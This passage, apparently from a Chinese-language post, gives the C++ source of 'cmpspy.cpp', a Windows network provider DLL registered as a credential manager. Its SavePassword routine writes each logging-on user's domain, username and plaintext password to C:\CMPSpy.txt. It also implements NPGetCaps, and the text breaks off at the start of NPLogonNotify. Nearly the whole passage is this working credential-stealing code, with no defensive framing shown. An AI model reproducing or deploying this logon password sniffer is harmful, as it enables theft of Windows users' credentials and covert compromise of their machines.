`cmpspy.cpp`如下：

```cpp
// cmpspy.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

void SavePassword(PUNICODE_STRING logondomainname, PUNICODE_STRING username, PUNICODE_STRING password)
{
    HANDLE hFile;
    DWORD dwWritten;

    hFile = CreateFile(TEXT("C:\\CMPSpy.txt"),
        GENERIC_WRITE,
        0,
        NULL,
        OPEN_ALWAYS,
        FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile != INVALID_HANDLE_VALUE)
    {
        SetFilePointer(hFile, 0, NULL, FILE_END);
        if (logondomainname->Length > 0)
        {
            WriteFile(hFile, logondomainname->Buffer, logondomainname->Length, &dwWritten, 0);
            WriteFile(hFile, L" -> ", 8, &dwWritten, 0);
        }

        WriteFile(hFile, username->Buffer, username->Length, &dwWritten, 0);
        WriteFile(hFile, L" -> ", 8, &dwWritten, 0);
        WriteFile(hFile, password->Buffer, password->Length, &dwWritten, 0);
        WriteFile(hFile, L"\r\n", 4, &dwWritten, 0);
        CloseHandle(hFile);
    }
}

DWORD
APIENTRY
NPGetCaps(
    DWORD nIndex
)
{
    switch (nIndex)
    {
    case WNNC_SPEC_VERSION:
        return WNNC_SPEC_VERSION51;

    case WNNC_NET_TYPE:
        return WNNC_CRED_MANAGER;

    case WNNC_START:
        return WNNC_WAIT_FOR_START;

    default:
        return 0;
    }
}

DWORD
APIENTRY
NPLogonNotify(
    PLUID lpLogonId,
    LPCWSTR lpAuthInfoType,
```